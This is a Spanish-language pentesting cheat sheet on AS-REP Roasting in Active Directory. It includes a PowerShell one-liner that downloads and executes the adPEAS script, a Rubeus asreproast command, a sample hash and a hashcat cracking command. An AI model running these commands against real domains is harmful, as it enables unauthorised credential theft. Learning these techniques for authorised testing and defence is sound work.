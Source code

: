 # ASREProstable 

Tags: #AD #ASREProstable #Rubeus #HashCat #Windows #Powershell 

El "KRB_AS_REP Roasting" es un ataque dirigido a cuentas en dominios de Active Directory (AD) que tienen habilitada la opción "No requiere preautenticación de Kerberos". Esta configuración permite a un atacante solicitar un ticket de autenticación (AS-REP) sin proporcionar una preautenticación válida. El atacante puede capturar este ticket y descifrarlo fuera de línea para intentar recuperar las contraseñas en texto claro de las cuentas afectadas. Este método explota configuraciones inseguras y puede ser mitigado desactivando dicha propiedad en las cuentas y aplicando contraseñas fuertes junto con políticas de monitoreo.

* [CVE-2022-33679](https://infayer.com/archivos/1661)

```bash 
1. Preautenticación de Kerberos: Normalmente, Kerberos requiere que un usuario proporcione no solo su nombre de usuario sino también su contraseña para obtener un ticket TGT (Ticket Granting Ticket) durante el proceso de autenticación inicial (AS-REQ). Esta es una medida de seguridad diseñada para prevenir ataques de tipo "offline" en los que se intenta adivinar las contraseñas.
    
2. Cuentas sin Preautenticación: Sin embargo, en algunos casos, esta propiedad puede estar deshabilitada para ciertas cuentas debido a necesidades de compatibilidad o configuraciones erróneas. Esto significa que el KDC (Key Distribution Center) enviará la respuesta (AS-REP) que contiene el TGT cifrado sin requerir una prueba válida de conocimiento de la contraseña del usuario.

# Funcionamiento 

1. Enumeración de Usuarios: Un atacante primero enumerará las cuentas de usuario que tienen deshabilitada la preautenticación de Kerberos.
    
2. Solicitud de TGT: Luego, el atacante puede enviar una solicitud AS-REQ para esas cuentas y el KDC responderá con un AS-REP que contiene el TGT cifrado usando la contraseña del usuario.
    
3. Ataque Offline: A diferencia de un ataque de fuerza bruta online, el atacante puede ahora intentar descifrar el TGT offline, utilizando herramientas de cracking de contraseñas para adivinar la contraseña sin alertar al sistema o bloquear la cuenta de usuario.
```

## Obtener Hash con ADPeas

```bash 
# Ejemplo de un hash 'Kerberoasteable'
❯ $krb5asrep$23$asrep.user@domain1.corp:0939461A3CF12B34FC2EEDE8C8154E15$55613643FA62AB315871CFD2D3...

Nota: 
	1. Guardar el Hash en una sola linea en un documento .txt
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada
```

## Rubeus

```bash 
1. Solicitar Tickets Kerberos (TGTs): Rubeus puede solicitar Ticket Granting Tickets (TGTs) utilizando contraseñas, hashes o incluso claves.
    
2. Kerberoasting: Rubeus es capaz de solicitar Ticket Granting Service (TGS) tickets para cuentas de servicio y luego intentar descifrar estos tickets fuera de línea para obtener contraseñas en texto claro, una técnica conocida como Kerberoasting.
    
3. Overpass (Pass-the-Ticket): Rubeus puede realizar ataques de "Overpass", donde los TGTs son utilizados para autenticarse en otros sistemas sin conocer la contraseña del usuario.
    
4. Ticket Renewal: Puede renovar tickets válidos que aún estén dentro de su período de renovación.
    
5. Dumping Tickets: Rubeus puede extraer tickets de la memoria y almacenarlos para su uso o análisis posterior.
    
6. Manipulación de Tickets: Puede purgar, renovar e incluso falsificar tickets de Kerberos.
    
7. Hunting de Tickets: Rubeus puede buscar en la red tickets específicos que proporcionen acceso a ciertos recursos o que posean ciertos privilegios.
    
8. Ataques de Fuerza Bruta: Puede intentar fuerza bruta contra cuentas de usuario con el objetivo de obtener un TGT.
```

* [Rubeus](https://github.com/GhostPack/Rubeus)

```powershell
❯ .\Rubeus.exe asreproast /user:asrep.user /format:hashcat /outfile:hashes.asreproast 

	# user = Usuario vulnerable
	# outfile = Exportar a un archivo 

Nota:
	1. Al finalizar crea un archivo en 'C:\Users\admin\Desktop\hashes.asreproast' donde se encuentra el hash asreproast
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 --force hashes.asreproast /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```
